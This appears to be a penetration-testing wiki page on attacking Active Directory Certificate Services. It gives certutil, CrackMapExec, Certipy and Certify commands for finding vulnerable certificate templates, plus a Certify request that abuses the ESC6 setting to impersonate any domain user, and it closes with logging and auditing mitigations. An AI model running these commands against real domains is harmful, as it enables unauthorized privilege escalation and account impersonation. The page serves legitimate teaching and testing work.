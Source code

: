# AD CS

Active Directory Certificate Services (AD CS) is a feature of Active Directory that allows a desginated server to issue certificates. This assists in helping environments leverage and deploy the security advantages of using certificate-based authentication.

For a way more well explained blog on exploiting AD CS, I highly recommend checking out [SpecterOps' article](https://posts.specterops.io/certified-pre-owned-d95910965cd2).&#x20;

Additionally, notes from the [Relaying section](relaying/) are essential to understanding the attack chain of AD CS.

## Enumerate AD CS

If we get a hit from these methods then we can browse to the host identified with the  following URL: `http://localhost/certsrv/`

### Certutil

Dump and display certification authority information with Certutil.exe. This utility can be used to quickly identify if there is a certificate authority on the domain for AD CS attacks:

```
Certutil -ping
Certutil.exe -tcainfo
```

### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M adcs
```

### Certify

When dealing with AD CS, [Ceritfy](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) are going to be your best friends.&#x20;

```bash
# Identify and list vulnerable templates with Certipy
certipy find -u $username -p $password -dc-ip $dcip -vulnerable

# Identify and list vulnerable templates with Certify
Certify.exe find /vulnerable
```

## Exploitation

The following section builds off of several available repositories that are referenced at the bottom of this page. There are multiple ways to exploit vulnerable certificate templates so I highly recommend searching through red team wikis and blogs to find one that may be specific for your use case.&#x20;

#### EDITF\_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this attribute is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

The above quote from Microsoft in attacker-speak means that we can then enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll. This would allow the attacker to obtain a certificate that then allows them to authenticate as any user/machine on the domain.&#x20;

{% hint style="info" %}
This setting is disablesd by default.&#x20;
{% endhint %}

This setting, like many others in this section can be discovered and exploited #through using [Certify](https://github.com/GhostPack/Certify).&#x20;

```bash
# Find all enabled certificate templates:
Certify.exe find

# Abuse a cerificate with this setting configured 
Certify.exe request /ca:CA01.oasis.local\CorpCA /template:User /altname:$impersonateuser
```

## Mitigation

One of the easiest ways to assist in detecting exploitation of AD CS is to enable Certificate Authority logging. By default, AD CS does not enable logging by default, which in the case of an incident will prevent an organization from responding to an incident. This can be easily remediated:

```bash
# Enable CA Logging
certutil.exe -setreg CA\AuditFilter 127

```

Additionally, it is recommended to perform regular auditing with tools such as PSPKIAudit to detect vulnerable certificate templates:

{% embed url="https://github.com/GhostPack/PSPKIAudit" %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates" %}

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn786426(v=ws.11)" %}

{% embed url="https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/" %}
